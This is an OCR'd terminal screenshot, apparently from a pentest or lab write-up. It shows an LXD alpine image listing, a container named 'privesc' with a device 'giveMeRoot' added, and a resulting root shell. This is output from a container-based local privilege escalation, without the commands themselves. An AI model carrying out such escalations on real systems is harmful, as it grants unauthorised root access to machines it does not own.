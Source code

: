 ```bash
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 7bdf53b6ce2b | no     | alpine v3.12 (20200624_09:38) | x86_64       | CONTAINER | 3.05MB | Jun 24, 2020 at 2:06pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
```
